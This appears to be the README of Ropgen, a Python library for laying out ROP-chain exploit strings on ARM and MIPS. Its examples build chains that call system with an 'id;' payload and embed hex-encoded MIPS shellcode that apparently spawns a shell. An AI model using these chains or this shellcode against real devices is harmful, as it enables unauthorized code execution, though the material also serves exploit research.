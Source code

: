 # Ropgen

A python module to facilitate in the generation of ROP chain exploit string, especially for ARM and MIPS architecture.

After we have found out the gadgets which will be used in the ROP chain we need to lay out them. The gadgets needs be placed at specific offsets within the exploit string with filler bytes separating them.

This python module assists in the creation of such ROP strings. You can build the string by specifying the offsets and the value that will be placed at that offset. A value can be a byte, word, double word, quad word or string.

Additionally, you can summarize the generated rop string in the form of a nice ascii table.

# Installation

Ropgen is available on PyPI. 

[![PyPI version](https://badge.fury.io/py/ropgen.svg)](https://badge.fury.io/py/ropgen)

To install systemwide (requires root privileges)

```
# pip install ropgen
```

Or to do a local install to the user home directory (doesn't require root)

```
$ pip install --user ropgen
```

## Example-1

```python
#!/usr/bin/env python2
from ropgen import RopGen

libc = 0x2ab3e000
gadget1 = 0x27eb4
sleep = 0x2f2b0
system = 0x2bfd0
gadget2 = 0x267b0
gadget3 = 0x171cc

# endianess is le by default
rop = RopGen()
rop.set_dword(51, libc + gadget1, "Gadget 1")
rop.set_dword(158, libc + sleep, "sleep")
rop.set_dword(170, libc + system, "system")
rop.set_dword(194, libc + gadget2, "Gadget 2")
rop.set_dword(226, libc + gadget3, "Gadget 3")
rop.set_string(254, "id; \x00", "Payload")

print rop.build()
print rop.summarize()
```

**Output**

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�^�*AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�Ҷ*AAAAAAAAП�*AAAAAAAAAAAAAAAAAAAA�G�*AAAAAAAAAAAAAAAAAAAAAAAAAAAA�Q�*AAAAAAAAAAAAAAAAAAAAAAAAid; 
+--------+---------------------+-----------------+
| Offset | Content description | Length in bytes |
+========+=====================+=================+
| 0      | Padding Bytes       |       51        |
+--------+---------------------+-----------------+
| 51     | Gadget 1            |        4        |
+--------+---------------------+-----------------+
| 55     | Padding Bytes       |       103       |
+--------+---------------------+-----------------+
| 158    | sleep               |        4        |
+--------+---------------------+-----------------+
| 162    | Padding Bytes       |        8        |
+--------+---------------------+-----------------+
| 170    | system              |        4        |
+--------+---------------------+-----------------+
| 174    | Padding Bytes       |       20        |
+--------+---------------------+-----------------+
| 194    | Gadget 2            |        4        |
+--------+---------------------+-----------------+
| 198    | Padding Bytes       |       28        |
+--------+---------------------+-----------------+
| 226    | Gadget 3            |        4        |
+--------+---------------------+-----------------+
| 230    | Padding Bytes       |       24        |
+--------+---------------------+-----------------+
| 254    | Payload             |        5        |
+--------+---------------------+-----------------+
```

## Example-2

```python
#!/usr/bin/env python3
from ropgen import RopGen

libc = 0x40854000
gadget1 = libc + 0x000158dc
gadget2 = libc + 0x00037690
gadget3 = libc + 0x0000b830
gadget4 = libc + 0x00040e18 + 4
sleep = libc + 0x56bd0

shell = bytes.fromhex('6269093c2f2f2935f4ffa9af7368093c6'\
	'e2f2935f8ffa9affcffa0aff4ffbd2720'\
	'20a003fcffa0affcffbd27ffff0628fcf'\
	'fa6affcffbd232030a00373680934fcff'\
	'a9affcffbd27ffff0528fcffa5affcffb'\
	'd23fbff1924272820032028bd00fcffa5'\
	'affcffbd232028a003ab0f02340c010101')

rop = RopGen(endian='be', padding='B')
rop.set_dword(260, sleep, "sleep")
rop.set_dword(276, gadget2, "gadget2")
rop.set_dword(292, gadget1 , "gadget1")
rop.set_dword(296 + 0x24, gadget3, "gadget3")
rop.set_dword(296 + 0x20, gadget4, "gadget4")
rop.set_string(296 + 0x28 + 0xb8, shell, "shellcode")
rop.build()
print(rop.summarize())
```
**Output**

```
+--------+---------------------+-----------------+
| Offset | Content description | Length in bytes |
+========+=====================+=================+
| 0      | Padding Bytes       |       260       |
+--------+---------------------+-----------------+
| 260    | sleep               |        4        |
+--------+---------------------+-----------------+
| 264    | Padding Bytes       |       12        |
+--------+---------------------+-----------------+
| 276    | gadget2             |        4        |
+--------+---------------------+-----------------+
| 280    | Padding Bytes       |       12        |
+--------+---------------------+-----------------+
| 292    | gadget1             |        4        |
+--------+---------------------+-----------------+
| 296    | Padding Bytes       |       32        |
+--------+---------------------+-----------------+
| 328    | gadget4             |        4        |
+--------+---------------------+-----------------+
| 332    | gadget3             |        4        |
+--------+---------------------+-----------------+
| 336    | Padding Bytes       |       184       |
+--------+---------------------+-----------------+
| 520    | shellcode           |       116       |
+--------+---------------------+-----------------+
```

# License

Licensed under MIT.
